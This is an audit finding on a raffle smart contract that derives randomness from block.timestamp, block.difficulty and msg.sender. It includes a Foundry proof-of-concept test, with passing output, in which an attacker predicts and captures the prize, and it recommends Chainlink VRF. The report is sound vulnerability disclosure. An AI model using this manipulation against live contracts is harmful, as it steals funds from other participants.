 ## [High - Lost of Funds] Using on-chain data to pick the winner leads to knowing the winner in advance

### Severity

High Risk

### Date Modified

Oct 28th, 2023

### Summary

Blockchain is a deterministic technology, so there is no randomness and no way to create random data for a lottery or similar application.

But not only that. The fact that the function does not have any kind of access control made it possible for an attacker to execute it at any time, choosing the right block.timestamp and block.difficulty to suit his/her interest.

### Vulnerability Details (PoC)

This contract, within the selectWinner() function, uses on-chain data 2 times:

```
uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
```

And

```
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
```

Take this test as an example:

```

function test_selectWinnerNoRandomness() external playerEntered {
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        uint256 afterIndex = uint256(keccak256(abi.encodePacked(attacker, block.timestamp, block.difficulty)));
        uint256 afterIndex4 = afterIndex % 4;
        uint256 afterIndex5 = afterIndex % 5;

        console.log("afterIndex4: ", afterIndex4); // afterIndex4:  1
        console.log("afterIndex5: ", afterIndex5); // afterIndex4:  4 ok!!!

        // Note: It is more elegant To use a script or a loop but this is only for PoC

        // The attacker has found that in a 5 player game the position to take is 5.
        address[] memory playerAttack = new address[](4);
        playerAttack[0] = playerTwo;
        playerAttack[1] = playerThree;
        playerAttack[2] = playerFour;
        playerAttack[3] = attacker;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(playerAttack);

        uint256 contractBalance = address(puppyRaffle).balance;
        uint256 attackerBalance = address(attacker).balance;

        // The attacker should execute the function himself to use his/her address!
        vm.prank(attacker);
        puppyRaffle.selectWinner();

        assertEq(attacker.balance, attackerBalance + ((contractBalance * 80) / 100));
    }
```

```
➜  2023-10-Puppy-Raffle git:(main) ✗ forge test --mt test_selectWinnerNoRandomness
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/PRTEst.t.sol:PRTEst
[PASS] test_selectWinnerNoRandomness() (gas: 303697)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.27ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see, after finding the relationship between global variables + own address + number of players, the attacker is able to attack the contract and win the prize with 100% effectiveness.

The same goes for rarity. The attacker is able to find the relationship between the address and the difficulty and get the desired rarity.

### Impact

Any attacker can set up their account in the right place so that they always win the raffle, so that it is no longer a "lottery" but a scam for the other users.

### Tools Used

Foundry, terminal.

### Recommendations

We don't know if this was intended by the developers, but it is highly recommended to secure the function with Open Zeppelin libraries such as onlyOwner or AccessControl. This will help to control the damage.

But the only real way to avoid the high-risk vulnerability is to use an oracle instead of on-chain data for randomness.

The most widely used and tested oracle for these cases is the Chainlink VRF, and it is possible to consult the documentation for it here:

https://docs.chain.link/vrf
